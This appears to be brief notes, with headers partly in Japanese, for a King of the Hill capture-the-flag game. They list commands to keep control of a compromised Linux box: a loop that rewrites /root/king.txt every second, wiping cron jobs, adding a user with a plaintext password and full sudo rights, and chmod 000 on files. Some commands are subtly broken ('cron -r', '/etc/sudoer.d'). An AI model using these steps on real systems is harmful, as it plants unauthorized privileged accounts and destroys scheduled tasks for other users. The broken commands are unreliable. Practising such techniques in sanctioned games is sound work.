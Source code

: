 # king process
```
mkdir /usr/lib/snr
touch /usr/lib/snr/snr-service

#!/bin/bash

while [ 1 ]
do
 sleep 1s;
 echo "shunaroo" > /root/king.txt;
done
```

# delete cron
cron -r

# adduser
```
useradd shunaroo
passwd shunaroo
ShunaroO

visudo -f /etc/sudoer.d/shunaroo

shunaroo ALL=(ALL) ALL
```

# 権限変更
- chmod 000 


